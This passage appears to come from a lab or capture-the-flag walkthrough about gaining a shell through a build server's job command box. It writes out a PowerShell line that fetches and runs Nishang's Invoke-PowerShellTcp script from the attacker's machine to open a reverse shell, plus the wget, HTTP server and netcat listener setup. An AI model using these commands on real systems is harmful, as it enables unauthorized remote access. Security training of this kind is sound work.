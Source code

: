 When the job is run the commands contained in this box are executed on the target system.  
Write the following command in the box

```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.13.148:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.13.148 -Port 443
```

This powershell command downloads and executes a powershell script from the Nishang project and it will get you a reverse shell on the system.  
But before that you need prepare a few things for this to work.  
First you need to replace all the occurrences of the 10.10.13.148 ip from the previous command with the ip of your attack box.  
Next, download the script on your local machine.

```bash
root@ip-10-10-13-148:~# wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
--2024-09-20 16:09:21--  https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: \u2018Invoke-PowerShellTcp.ps1\u2019

Invoke-PowerShellTcp.ps1                   100%[=====================================================================================>]   4.24K  --.-KB/s    in 0s

2024-09-20 16:09:21 (33.1 MB/s) - \u2018Invoke-PowerShellTcp.ps1\u2019 saved [4339/4339]
```

You need to serve the script to the target machine so that it can download it from you (using the powershell command we just saw).  
In order to do so start a http server on your machine, **in the same directory where you downloaded the powershell script**.

```bash
root@ip-10-10-13-148:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We are using a reverse shell so the target machine will attempt to connect back at you, start a listener to catch that connection.

```bash
root@ip-10-10-13-148:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```

Click on "Build now" to run the job.
